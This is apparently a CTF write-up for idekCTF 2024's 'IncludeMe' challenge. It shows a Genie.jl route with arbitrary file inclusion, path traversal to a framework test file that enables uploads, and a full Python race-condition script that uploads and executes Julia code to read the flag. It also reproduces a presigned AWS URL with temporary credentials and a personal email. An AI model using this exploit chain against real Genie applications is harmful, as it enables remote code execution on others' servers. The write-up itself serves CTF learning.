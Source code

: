 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466QLS7DZXY%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T120109Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDQaCXVzLXdlc3QtMiJGMEQCIB1OqpwTZ%2BpvK%2FCVjFf2Gx%2BlUJICuCgfDdTQy3vSYSjCAiA%2FeM%2FFaGjkFHy6uSsLNo3%2FPAxF4swsdSQOft7KqQLBmiqIBAjt%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMxCO95FI1GP3K3FFAKtwD%2FsanFKfyPVYjtyHD8i%2FlPJfNlckNR3gee0W9QQkLpkQU2N2eHlSZNAd5qkZSW8lz%2FHMWDspAdswxT3gujPMq7b8mwGtWK8mbzkks60tMTz4iUiqjHceDk4dX4Iy0v2DduiTyRh9WN2OmfRVxGkRGGGHDA0zftBJ9nmmjim5gTvCE%2F8JRpLhy%2Fcd0bL48JKFsOfMJ5yb9pzLZecaTtwI7cf%2FaOnN6tmZdGoEAo0k41dUu%2FiFDn%2F2w43kdz2AicwVlELzIfwkz9P7kGMM%2BT8A0gRlqAJD1feCfgTJg2O9Y3u1usQTgJoTKqVYQZqcmCAsHcZA4BfPdmQM9cliRcQGfLkG23MpmBR1PdM7tT5pQngMXZFBUJLTgDmNlNu2gqkjlGvVRY%2BGXZ%2FLXUPjkkqSc7AvtJsxUKjVw6pHRmys6n2fwp5spL4jTcj3SgkGM69OvQno%2BuC3CVApzyLLnUE90SiTOUsOPIcdWfWwPV%2BVV5YuNvMtwcOoUAVL69F6ZbOXXl6Ir3QqH2FTVy5e005haD6hgHl0djLaZO98dJj0ZXXaMkXQKDazj0%2FLnidtoUIFGWIPRPxaTbWun%2BYpeP5%2FJ3CUoya%2FYkyLNHXtFSeBuZlfyBcKzPZrdwnnQolwwxL7BwQY6pgGdEh04ijRslPguUSxfBU3wBkHlvGDR7tieWR%2F2%2BAsMA%2B0fOX4COZSrmnxf9DCnm4ZjqsS6EFLXsp%2F9KfSB9BE9BomtoKWII2UL3Z3aeQqwDWr%2BHCZjc%2F3FMaBMsswhvAqDJqI8Lj0acM2YNn%2BBJq%2FiwosKaUg1n9OeyypcvQfwJY49VbfKgKGN0crLyRqHLUz9engoiJFVS86JVVOZsoOoNK563j2%2B\&X-Amz-Signature=a1f76ba039a94c1f40cc20cf5c253440a678966956e6ce85fac9199eddbc4358\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
